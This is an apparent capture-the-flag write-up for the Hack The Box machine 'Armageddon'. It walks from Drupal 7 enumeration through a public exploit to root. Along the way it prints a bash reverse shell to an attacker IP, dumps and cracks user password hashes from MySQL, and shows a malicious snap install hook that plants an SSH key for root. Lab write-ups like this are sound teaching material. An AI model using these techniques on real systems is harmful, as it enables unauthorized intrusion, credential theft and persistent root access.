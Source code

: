 # Armageddon

## Overview

Starting off a shell is gained using an exploit in the drupal instance running on the web port. Using the exploit a shell is gained on the box. Using this shell access is gained into the MySQL instance running on the box. From there the users from the drupal installation are dumped. Cracking one of the passwords grants access to the machine through SSH. In order to gain root snapd is used to install a package as root. From there a root shell is gained on the box and the box is complete.

## Enumeration

To begin with nmap is used to scan all the ports on the machine.

```bash
sudo nmap -p- 10.129.106.237 -oA nmap/all-ports
[sudo] password for tc: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 16:58 EDT
Nmap scan report for 10.129.106.237
Host is up (0.090s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 180.66 seconds
```

There are only 2 different ports that are open on the box port 22 and port 80. In order to get more information another nmap scan is run.

```bash
sudo nmap -p22,80 -sC -sV -oA nmap/info 10.129.106.237
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 17:03 EDT
Nmap scan report for 10.129.106.237
Host is up (0.087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
```

### Port 80

Based on the robots.txt and the title of the page it appears to be a drupal website running on the machine. There is a tool called ```droopescan``` the can enumerate information off a drupal website. Using this tool the version is found to be ```7.56```

```bash
droopescan scan drupal -u http://10.129.106.237/
[+] Plugins found:
    profile http://10.129.106.237/modules/profile/
    php http://10.129.106.237/modules/php/
    image http://10.129.106.237/modules/image/

[+] Themes found:
    seven http://10.129.106.237/themes/seven/
    garland http://10.129.106.237/themes/garland/

[+] Possible version(s):
    7.56

[+] Possible interesting urls found:
    Default changelog file - http://10.129.106.237/CHANGELOG.txt

[+] Scan finished (0:01:58.315916 elapsed)
```

## Exploiting

Searching for this drupal version using searchsploit there are a couple exploits that come up. 

![Searchsploit](attachments\armageddon1.png)

Doing a quick google search turns up this [exploit](https://www.exploit-db.com/exploits/44449) in cases where metasploit is not wanted. Using this exploit we can upload a shell script that executes a reverse shell and run it. All we need to do is use curl to download the script. Then using the exploit which allows for code execution set it as executable and run it. The shell script simply executes a reverse shell by running ```bash shell.sh```.

### shell.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/80 0>&1
```

## Privilege Escalation

To begin with gaining root, a MySQL instance is located and the credentials for it were found in ```settings.php``` from the drupal installation. We can use file redirects to run commands through MySQL.  Here is an example of running a set of commands.  ```mysql -u {redacted} --password={redacted} < c.sql > out 2>&1```. This format to run commands was found [here](https://serverfault.com/questions/356567/mysql-not-to-print-selects-output-to-terminal). 

Here is an example of one of the command files.

```sql
use drupal;  
show tables;
```

Here is the file that dumped the users and their password hashes from the SQL database.

```sql
use drupal;  
select \* from users
```

Once we have the hases from the users table we can use john to crack the password. 

```bash
tc@ubuntu:/opt/john$ ./john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ~/htb/Armageddon/hash   
Using default input encoding: UTF-8  
Loaded 1 password hash (Drupal7, $S$ \[SHA512 256/256 AVX2 4x\])  
Cost 1 (iteration count) is 32768 for all loaded hashes  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
{redacted}           (?)  
1g 0:00:00:00 DONE (2021-04-01 21:25) 1.265g/s 293.6p/s 293.6c/s 293.6C/s tiffany..harley  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed
```

## User

Using the cracked password we can log into the compter with SSH. Once we are logged into the computer we find ourselves as the user with access to the user.txt file. From there running ```sudo -l``` we notice that we can install a package using snap as root.

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

In order to get root we need to create a new snap package that will give us access to the root user. 

I found a couple of different links that all helped in figuring out how to escalate privileges. [Here](https://www.exploit-db.com/exploits/46361) is an old exploit that pointed me to the hooks in a snap installation. This [link](https://snapcraft.io/docs/supported-snap-hooks) shows a list of all supported hooks in a snap package. There are 2 primary hooks that are of interest to us. The first is the ```install``` hook and the other is ```configure``` hook. Following along with the second link a snap package was setup and an install hook was used to write a ssh key for the root user. 

This picture shows where I put the install hook files. I am still not sure exactly which file was in the correct location but this file structure worked.

![File List](attachments\armageddon2.png)

The script that was used to give a root shell saved a SSH public key to the root's ```authorized_keys``` file. Here is a copy of the script that added my SSH public key.

```bash
#!/bin/bash

mkdir -p /root/.ssh/
echo "{Key redacted}" >> /root/.ssh/authorized_keys
chmod 644 /root/.ssh/authorized_keys
touch /dev/shm/made
```

To install snapcraft there is a yaml file that needs to be edited as well. Listing the snaps that were on the system showed that there was only ```base: core```. Therefore I had to make sure that the base my app was using matched what was already installed.

Here is a full copy of my snapcraft.yaml file.

```bash
name: hello # you probably want to 'snapcraft register <name>'
base: core # the base snap is the execution environment for this snap
version: '0.1' # just for humans, typically '1.2+git' or '1.3.2'
summary: Single-line elevator pitch for your amazing snap # 79 char long summary
description: |
  This is my-snap's description. You have a paragraph or two to tell the
  most important story about your snap. Keep it under 100 words though,
  we live in tweetspace and your description wants to look good in the snap
  store.

grade: devel # must be 'stable' to release into candidate/stable channels
confinement: devmode # use 'strict' once you have the right plugs and slots

parts:
  gnu-hello:
    source: http://10.10.14.25/hello-2.10.tar.gz
    plugin: autotools
```

This was another [link](https://ubuntu.com/tutorials/create-your-first-snap#3-building-a-snap-is-easy) that helped me understand snap packages. 

In order to build the snap package you can use a tool called ```snapcraft```. In my case to build the snap package I had to make sure snapcraft used ```lxd```. The command to build the package is ```snapcraft --use-lxd``` which is run in the folder with the snapcraft.yaml file. 

With the package all setup and uploaded to the victim machine all we need to go is install the package.

```bash
sudo /usr/bin/snap install --devmode --dangerous /dev/shm/hello_0.1_amd64.snap
```

Once the package is installed we can login to the root user with our ssh key.